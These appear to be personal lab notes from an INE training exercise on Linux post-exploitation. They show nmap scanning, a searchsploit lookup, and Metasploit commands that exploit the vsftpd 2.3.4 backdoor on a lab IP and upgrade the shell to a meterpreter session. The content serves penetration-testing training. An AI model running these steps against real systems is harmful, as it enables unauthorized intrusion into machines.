 # 🔬Linux Post-Exploitation

> 🔬 INE LAB
>
> * Target IP: `192.227.245.3`
> * **Local Linux Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```bash
nmap -sV 192.227.245.3
    21/tcp open  ftp     vsftpd 2.3.4vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                                                                               | exploits/unix/remote/17491.rb
```

```bash
searchsploit vsftpd 2.3.4
    vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
```

```bash
service postgresql start && msfconsole -q
setg RHOSTS 192.227.245.3
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
setg RHOSTS 192.227.245.3
epxloit
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```bash
# CTRL+Z
sessions -u 1
sessions 2
	meterpreter >
```

## Local Enumeration <a href="#local-enumeration" id="local-enumeration"></a>
